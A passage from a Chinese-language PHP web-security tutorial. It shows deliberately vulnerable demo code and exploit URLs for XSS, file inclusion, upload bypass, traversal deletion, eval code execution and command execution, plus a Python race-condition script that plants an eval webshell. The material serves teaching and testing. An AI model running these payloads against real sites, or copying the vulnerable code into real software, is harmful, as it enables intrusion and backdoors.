    payload varchar(100) NOT NULL,
    PRIMARY KEY (id)
)ENGINE=MyISAM DEFAULT CHARSET=utf8;
```

storagexss.php(test on mysql 5.5.38)

```php
\\存储XSS演示
<form action="" method="post">
    <input type="text" name="xss"/>
    <input type="submit" value="test"/>
</form>
<?php
$xss=@$_POST['xss'];
mysql_connect("localhost","root","root");
mysql_select_db("test");
if($xss!==null){
    $sql="insert into xss(id,payload) values(1,'$xss')";
    $result=mysql_query($sql);
    echo $result;
}
?>
```

storagexsshow.php(test on mysql 5.5.38)

```php
<?php
mysql_connect("localhost","root","root");
mysql_select_db("test");
$sql="select payload from xss";
$result=mysql_query($sql);
while($row=mysql_fetch_array($result)){
    echo $row['payload']; 
}
?>
```

storagexss.php post:`<img src=x onerror=alert(document.cookie)>`
访问storagexsshow.php会弹出cookie

恶意利用(以评论区存在存储型xss为例):假如某网站评论区存在xss存储行漏洞,攻击者在评论中插入获取cookie的代码,当每个用户看到此评论时,他们的cookie都会被发送到攻击者服务器。

#### DOM型

没有经过后端,只在前端触发。

数据流向是：URL-->浏览器 

eg:

domxss.php(test on mysql 5.5.38)

```php
<?php
error_reporting(0); //禁用错误报告
$q = $_GET["q"];
?>
<form action="" method="get">
    <input type="text" name="q" id='text' value="<?php echo $q;?>" />
    <input type="submit" value="test"/>
</form>
<div id="print"></div>
<script type="text/javascript">
var text = document.getElementById("text"); 
var print = document.getElementById("print");
print.innerHTML = text.value + ' not found'; // 获取 text的值，并且输出在print内。这里是导致xss的主要原因。
</script>
```

`http://127.0.0.1/domxss.php?q=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E`

恶意利用和反射型xss类似

### 实例

以ESPCMS P8.18101601n 前台XSS为例，问题主要由于错误页面的报错信息未作过滤，造成XSS漏洞。

payload:`http://127.0.0.1/espcms/index.php?ac=%3C/code%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&at=List&tid=7`



### 防范

- 特殊字符HTML实体编码
- 标签黑白名单(推荐白名单,黑名单可能存在不可预测的绕过)
- 请求头设置HttpOnly属性(cookie不能通过js调用获取)



## 6. 文件操作漏洞

总的来说时因为没有经过严格的验证,操作的文件是否在允许的范围内。

危害:

- 导致恶意文件/代码包含
- 导致敏感文件被读取
- 导致文件被删除
- 导致恶意文件上传

### 分类

#### 文件包含

文件包含分为本地文件包含(local file include)、远程文件包含(remote file include)。文件包含可以导致恶意代码被包含,从而获取webshell

文件包含利用函数:

- include(即使文件被包含过,也会再次包含,包含文件遇到错误代码也会继续执行)
- include_once(文件被包含过了,就不会再次包含,包含文件遇到错误也会继续执行)
- require(即使文件被包含过,也会再次包含,包含文件遇到错误程序直接退出)
- require_once(文件被包含过了,就不会再次包含,包含文件遇到错误程序直接退出)
- ...

本地文件包含(LFI):

只能包含本机文件,大多出现在模块加载、模板加载和cache调用等地方。
本地文件包含方式也有多种,比如上传一个允许上传的文件格式的文件在包含,包含PHP上传的临时文件,webserver记录到日志后在包含webserver的日志,linux下可以包含/proc/self/environ文件等。

eg:
localfileinclude.php(test on php 5.5.38)

```php
<?php
define("ROOT",dirname(__FILE__).'/');
$mod = $_GET['mod'];
echo ROOT.$mod.'.php';
include(ROOT.$mod.'.php');
?>
```

lfishell.php

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/localfileinclude.php?mod=lfishell`

远程文件包含:

可以包含远程文件。需要设置allow_url_include=on。支持http、ftp、php伪协议、zip、file等协议。

eg:

remotefileinclude.php

```php
<?php
include($_GET['url']);
?>
```

使用python开启一个见到的服务器:
`python -m SimpleHTTPServer 8080`

rfi.txt

```php
<?php
echo phpinfo();
?>
```

`http://127.0.0.1/remotefileinclude.php?url=http://127.0.0.1:8080/Desktop/rfi.txt`

使用伪协议(举两个伪协议例子):

php://input

- allow_url_fopen：off/on
- allow_url_include：on
  `http://127.0.0.1/remotefileinclude.php?url=php://input`
  `post: <?php phpinfo();?>`

php://filter

- allow_url_fopen：off/on
- allow_url_include：off/on
  `http://127.0.0.1/remotefileinclude.php?url=php://filter/read=convert.base64-encode/resource=remotefileinclude.php`

截断包含:

00截断(受限于GPC和addslashes等函数影响,php5.3之后也不能使用这个方法,不过现在很少有这个漏洞了):

```php
<?php
include $_GET['a'].'.php';
?>
```

假如你发现了截断包含漏洞,然后又只能上传某些固定后缀的文件,那可以试下00截断

`http://127.0.0.1/truncatedinclude.php?a=aaa.txt%00`

多个`.`和`/`截断,不受GPC限制,但是在php5.3之后修复

#### 文件读取(下载)

程序在下载文件或者读取显示文件的时候,读取文件的参数直接在请求中传递,后台程序获取到这个文件后直接读取返回,问题在于这个参数是用户可控的,可以直接传入想要的文件路径。

文件读取或者下载函数:

- file_get_contents
- high_light
- fopen
- readfile
- fread
- ...

eg:



```php
<?php
$file = file_get_contents($_GET['file']);
echo $file;
?> 
```

`http://127.0.0.1/fileread.php?file=aaa.txt`

#### 文件上传漏洞

如果能把文件上传到管理员或者应用程序不想让你上传的目录,那么就存在文件上传漏洞。

一般的检测流程:

- 客户端javascript校验（一般只校验文件的扩展名）
- 服务端校验
  - 文件头content-type字段校验（image/gif）
  - 文件内容头校验（GIF89a）
  - 目录路经检测（检测跟Path参数相关的内容）
  - 文件扩展名检测 (检测跟文件 extension 相关的内容)
  - 后缀名黑名单校验
  - 后缀名白名单校验
  - 自定义正则校验
- WAF设备校验（根据不同的WAF产品而定）

利用函数:

- move_uploaded_file

##### 客户端校验

jsupload.php(test on php 5.5.38)

```php
<?php
//文件上传漏洞演示脚本之js验证
$uploaddir = 'uploads/';
if (isset($_POST['submit'])) {
    if (file_exists($uploaddir)) {
        if (move_uploaded_file($_FILES['upfile']['tmp_name'], $uploaddir . '/' . $_FILES['upfile']['name'])) {
            echo '文件上传成功，保存于：' . $uploaddir . $_FILES['upfile']['name'] . "\n";
        }
    } else {
        exit($uploaddir . '文件夹不存在,请手工创建！');
    }
    //print_r($_FILES);
}
?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
    <title>文件上传漏洞演示脚本--JS验证实例</title>
    <script type="text/javascript">
        function checkFile() {
            var file = document.getElementsByName('upfile')[0].value;
            if (file == null || file == "") {
                alert("你还没有选择任何文件，不能上传!");
                return false;
            }
            //定义允许上传的文件类型
            var allow_ext = ".jpg|.jpeg|.png|.gif|.bmp|";
            //提取上传文件的类型
            var ext_name = file.substring(file.lastIndexOf("."));
            //alert(ext_name);
            //alert(ext_name + "|");
            //判断上传文件类型是否允许上传
            if (allow_ext.indexOf(ext_name + "|") == -1) {
                var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
                alert(errMsg);
                return false;
            }
        }
    </script>
<body>
<h3>文件上传漏洞演示脚本--JS验证实例</h3>


<form action="" method="post" enctype="multipart/form-data" name="upload" onsubmit="return checkFile()">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

`http://127.0.0.1/jsupload.php`

判断方式：
在浏览加载文件，但还未点击上传按钮时便弹出对话框，(进一步确定可以通过配置浏览器HTTP代理（没有流量经过代理就可以证明是客户端JavaScript检测））内容如：只允许传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。

绕过方法：
将需要上传的恶意代码文件类型改为允许上传的类型，例如将shell.asp改为shell.jpg上传，配置Burp Suite代理进行抓包，然后再将文件名shell.jpg改为shell.asp
上传页面，审查元素，修改JavaScript检测函数（具体方法：可以使用firebug之类的插件把它禁掉）

##### 服务端检测

###### MIME类型检测

MIME的作用：使客户端软件，区分不同种类的数据，例如web浏览器就是通过MIME类型来判断文件是GIF图片，还是可打印的PostScript文件。web服务器使用MIME来说明发送数据的种类， web客户端使用MIME来说明希望接收到的数据种类。

eg:

```php
<?php
if($_FILES['file']['type'] != "image/jpg")
{
    echo "Sorry, we only allow uploading GIF images";
    exit;
}
$uploaddir = './uploads/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile))
{
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "File uploading failed.\n";
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

绕过方法:
配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型

###### 扩展名检测

黑名单检测:

```php
<?php
function getExt($filename){
    //sunstr - 返回字符串的子串
    //strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）
    return substr($filename,strripos($filename,'.')+1);
}
if($_FILES["file"]["error"] > 0)
{
    echo "Error: " . $_FILES["file"]["error"] . "<br />";
}
else{
    $black_file = explode("|","php|jsp|asp");//允许上传的文件类型组
    $new_upload_file_ext = strtolower(getExt($_FILES["file"]["name"])); //取得被.隔开的最后字符串
    if(in_array($new_upload_file_ext,$black_file))
    {
        echo "文件不合法";
        die();
    }
    else{
        $filename = basename($_FILES['file']['name']).".".$new_upload_file_ext;
        if(move_uploaded_file($_FILES['file']['tmp_name'],"uploads/".$filename))
        {
            echo "Upload Success";
        }
    }
}
?>

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="upfile"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

apache服务器可能做了配置不会解析特殊扩展名
使用其他服务器复现(我使用的nginx),上传php4扩展名绕过黑名单
`http://127.0.0.1/uploads/shell.php4`

白名单检测:
仅允许指定的文件类型上传，比如仅与需上传jpg | gif | doc等类型的文件，其他全部禁止

绕过方法：

- 文件名大小写绕过
  - 用像 AsP，pHp 之类的文件名绕过黑名单检测
- 名单列表绕过
  - 用黑名单里没有的名单进行攻击，比如黑名单里没有 asa 或 cer 之类
- 特殊文件名绕过
  - 比如发送的 http 包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式 在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改，然后绕过验证后，会被windows 系统自动去掉后面的点和空格，但要注意 Unix/Linux 系统没有这个特性
- 0x00截断
  - 文件名后缀就一个%00字节，可以截断某些函数对文件名的判断。在许多语言函数中处理函数中，处理字符串中(php版本需要小于5.3.4,magic_quotes_gpc=Off)

###### 文件内容检测

文件头检测:

- JPG: FF D8 FF E0 00 10 4A 46 49 46
- GIF: 47 49 46 38 39 61 (GIF89a)
- PNG: 89 50 4E 47
  绕过方法:
  添加头对应的文件头伪造

文件相关信息检测:

- 检查图片大小、尺寸等的信息。
  绕过方法:
  将代码注入到正常文件中(比如图片马:copy /b 1.jpg+2.php)

###### 竞争上传

当文件上传到服务器,先暂时保存,在检查是不是符合条件,如果不符合再删掉。
利用思路就是我们用多线程不断上传.php文件,在某个没有被删除的时刻如果访问到了.php文件,就生成一个shell,shell就会存到服务器。

eg:

competionupload.php(test on php 5.5.38)

```php
<?php
if ($_POST['submit']){
    $allowtype = array("gif","png","jpg");
    $size = 10000000;
    $path = "./uploads/";
    $filename = $_FILES['file']['name'];
    if(is_uploaded_file($_FILES['file']['tmp_name'])){
        if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
            die("error:can not move");
        }
    }else{
        die("error:not an upload file！");
    }
    $newfile = $path.$filename;
    echo "file upload success.file path is: ".$newfile."\n<br />";
    if($_FILES['file']['error']>0){
        unlink($newfile);
        die("Upload file error: ");
    }
    $ext = array_pop(explode(".",$_FILES['file']['name']));
    if(!in_array($ext,$allowtype)){
        unlink($newfile);
        die("error:upload the file type is not allowed，delete the file！");
    }
}
?>


<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"

    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <meta http-equiv="Content-Type" content="text/html;charset=gbk"/>
    <meta http-equiv="content-language" content="zh-CN"/>
<body>


<form action="" method="post" enctype="multipart/form-data" name="upload">
    <input type="hidden" name="MAX_FILE_SIZE" value="204800"/>
    请选择要上传的文件：<input type="file" name="file"/>
    <input type="submit" name="submit" value="上传"/>
</form>
</body>
</html>
```

exp.py

```python
import os
import requests
import threading
import random
import string

exp_name = ''.join(random.sample(string.ascii_letters + string.digits,10))
shell_name = ''.join(random.sample(string.ascii_letters + string.digits,10))

# 按照自己的环境修改url
upload_url = 'http://127.0.0.1/competionupload.php'
exp_url = 'http://127.0.0.1/uploads/{}.php'.format(exp_name)
shell_url = 'http://127.0.0.1/uploads/{}.php'.format(shell_name)

exp_content = ('<?php fputs(fopen("{}.php", "w"), '
               '\'<?php @eval($_POST["qqq"]) ?>\'); ?>')
exp_content = exp_content.format(shell_name)

def upload():
    while True:
        print('[+] upload file...')
        data = {'submit':'上传'}
        files = {"file":('{}.php'.format(exp_name),exp_content)}
        resp = requests.post(upload_url,files=files,data=data)

def get():
    while True:
        print('[+] get shell file...')
        requests.get(exp_url)
        resp = requests.get(shell_url)
        if resp.status_code == 200:
            print('[*] create {}.php success'.format(shell_name))
            os._exit(0)

def main():
    threads = []

    try:
        # 线程数也可以自己修改,我这里只是开太多线程本地服务器扛不住
        for i in range(3):
            t = threading.Thread(target=get,args=())
            threads.append(t)
            t.start()

        for i in range(5):
            t = threading.Thread(target=upload,args=())
            threads.append(t)
            t.start()        

        for thread in threads:
            thread.join()
    except Exception as e:
        print(str(e))

if __name__ == "__main__":
    main()
```

可以参考[上面讲了19种情景的bypass方法](http://www.lmxspace.com/2018/06/12/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Ewriteup/)

#### 文件删除

文件删除漏洞出现在有文件管理功能的应用上很多,这些应用一般都有文件上传和读取等功能。漏洞利用原理和文件读取差不多,只是利用函数不一样。一般是因为删除文件的文件名可以用../跳转,或者没有限制当前用户只能删除他该有权限删除的文件。php中这个漏洞函数通常是unlink()

eg:

```php
<?php
$basedir = './uploads/';
if(isset($_GET['action']) && $_GET['action'] == 'delete'){
    $filename = isset($_GET['filename'])?$_GET['filename']:'';
    if($filename){
        unlink($basedir.$filename);
    }
}
?>
```

`http://127.0.0.1/filedelete.php?action=delete&filename=../../../../../../../test.txt`

### 例子



### 防范

通用防范:

- 对权限管理要合理,比如用户A上传的文件,不能被同权限的B用户删除。特殊文件操作需要特权用户才能操作,比如后台删除文件的操作,肯定需要限制管理员才能操作。
- 有的文件操作不需要直接传入文件名,比如下载文件时,可以将文件名、路径、ID(MD5形式)及文件上传用户存入数据库中,操作时根据文件ID和当前用户名去判断当前用户有没有权限操作改文件。
- 避免目录跳转。禁止`..`、`/`、`\`来跳转目录

## 7. 代码执行

代码执行漏洞指应用程序本身过滤不严,用户可以通过请求将代码注入到应用中执行。这种漏洞如果没有进行特殊过滤,相当于一个web后门的存在。

php中导致该漏洞的函数:

- eval
- assert
- preg_replace
- call_user_func
- call_user_func_array
- array_map
- php动态函数($a($b))
- ...

eval()和assert()函数导致的代码执行漏洞大多数是因为载入缓存或者模板以及对变量的处理不严格导致,比如直接把一个外部可控的参数拼接到模板里面，然后调用这两个函数去当成php代码执行。

eg:

```php
<?php
function action_a(){
    echo 'call action_a method';
}
function action_b(){
    echo 'call action_b method';
}
$a = $_GET['m'];
eval('action_'.$a.'();');
?>
```

`http://127.0.0.1/codexec_eval.php?m=b`

`http://127.0.0.1/codexec_eval.php?m=b();phpinfo();//`



preg_replace()函数(__php5.5之前可用__)导致代码执行需要存在`/e`参数，这个函数原本是用来处理字符串的，因此漏洞出现最多的是在对字符串的处理，比如URL、HTML标签及文章内容过滤等地方。

eg:

```php
<?php
$html_body = '<a {${phpinfo()}}></a>';
var_dump(preg_replace("#(</?)(\w+)([^>]*>)#e",
              '"\\1".strtoupper("\\2")."\\3"',$html_body));
?>
```

`http://127.0.0.1/codexec_preg.php`



由于php特性的原因，php函数可以直接由字符串拼接，导致动态执行函数。

eg:

```php
<?php
$_GET['a']($_GET['b']);
?>
```

`http://127.0.0.1/codexec_dynfunc.php?a=assert&b=phpinfo()`

还有其他函数，可以自行查阅



### 例子



### 防范



实际环境中可以结合正则表达式使用白名单对参数过滤



## 8. 命令执行



代码执行是指可以执行代码，命令执行是可以执行系统命令(比如CMD或者BASH命令)。php命令执行是继承webserver用户权限。

php命令执行函数:

- system
- exec
- shell_exec
- passthru
- pcntl_exec
- popen
- proc_popen
- \`



eg:

```php
<?php
system('whoami');
popen('whoami >> ./aaa.txt','r');
echo `whoami`;
?>
```



### 例子



### 防范



- 使用escapeshellcmd、escapeshellarg防止命令注入
- 参数白名单
